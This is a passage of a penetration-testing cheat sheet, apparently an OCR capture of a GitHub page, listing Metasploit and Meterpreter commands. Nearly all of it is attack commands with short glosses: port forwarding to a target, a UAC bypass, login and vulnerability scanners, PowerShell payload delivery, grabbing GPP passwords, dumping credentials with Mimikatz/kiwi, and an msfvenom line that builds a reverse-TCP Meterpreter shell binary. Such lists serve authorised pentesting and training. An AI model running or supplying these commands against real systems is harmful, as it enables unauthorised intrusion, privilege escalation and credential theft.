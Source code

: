 ```
        privileges; try migrating to winlogon.exe if possible first)
-   portfwd add --l 3389 --p 3389 --r target

    -   Meterpreter create port forward to target machine
-   portfwd delete --l 3389 --p 3389 --r target

    -   Meterpreter delete port forward
-   use exploit/windows/local/bypassuac

    -   Bypass UAC on Windows 7 + Set target + arch, x86/64
-   use auxiliary/scanner/http/dir_scanner

    -   Metasploit HTTP directory scanner
-   use auxiliary/scanner/http/jboss_vulnscan

    -   Metasploit JBOSS vulnerability scanner
-   use auxiliary/scanner/mssql/mssql_login

    -   Metasploit MSSQL Credential Scanner
-   use auxiliary/scanner/mysql/mysql_version

    -   Metasploit MSSQL Version Scanner
-   use auxiliary/scanner/oracle/oracle_login

    -   Metasploit Oracle Login Module
-   use exploit/multi/script/web_delivery

    -   Metasploit powershell payload delivery module
-   post/windows/manage/powershell/exec_powershell

    -   Metasploit upload and run powershell script through a session
-   use exploit/multi/http/jboss_maindeployer

    -   Metasploit JBOSS deploy
-   use exploit/windows/mssql/mssql_payload

    -   Metasploit MSSQL payload
-   run post/windows/gather/win_privs

    -   Metasploit show privileges of current user
-   use post/windows/gather/credentials/gpp

    -   Metasploit grab GPP saved passwords
-   load kiwi

-   creds_all

    -   Metasploit load Mimikatz/kiwi and get creds
-   run post/windows/gather/local_admin_search_enum

    -   Idenitfy other machines that the supplied domain user has
        administrative access to
-   set AUTORUNSCRIPT post/windows/manage/migrate

### **Meterpreter Payloads**

-   msfvenom --l

    -    List options

### **Binaries**

-   msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST= LPORT= -f elf > shell.elf
```